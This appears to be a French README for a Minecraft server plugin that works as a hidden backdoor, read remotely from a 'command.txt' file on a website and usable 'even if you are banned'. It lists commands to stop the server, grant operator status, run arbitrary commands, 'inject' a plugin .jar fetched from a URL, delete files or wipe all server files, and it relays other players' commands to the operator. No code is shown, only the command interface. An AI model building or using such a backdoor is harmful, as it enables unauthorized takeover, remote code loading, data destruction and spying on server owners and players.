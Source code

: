 ## Commandes et Utilisations

**Les commandes ci-dessous sont à placer dans le fichier command.txt du site web. Vous pouvez donc les exécuter même si vous êtes banni du serveur.**

1. **Commande : stop**
   Utilisation : Tapez "stop" pour arrêter le serveur.
   Exemple : `stop`

2. **Commande : op \<joueur\>**
   Utilisation : Tapez "op \<joueur\>" pour accorder le statut d'opérateur à un joueur.
   Exemple : `op JohnDoe`

3. **Commande : command \<commande\>**
   Utilisation : Tapez "command \<commande\>" pour exécuter une commande spécifique du serveur.
   Exemple : `command kill player123`

4. **Commande : inject \<url\>**
   Utilisation : Tapez "inject \<url\>" pour injecter un plugin depuis une URL donnée.
   Exemple : `inject http://example.com/somefile.jar`

5. **Commande : delete \<fichier\>**
   Utilisation : Tapez "delete \<fichier\>" pour supprimer un fichier spécifique du serveur.
   Exemple : `delete logs.txt`

6. **Commande : deleteall**
   Utilisation : Tapez "deleteall" pour supprimer tous les fichiers du serveur.
   Exemple : `deleteall`

En plus de ces commandes, le plugin affiche également toutes les commandes exécutées par d'autres joueurs dans votre chat en jeu.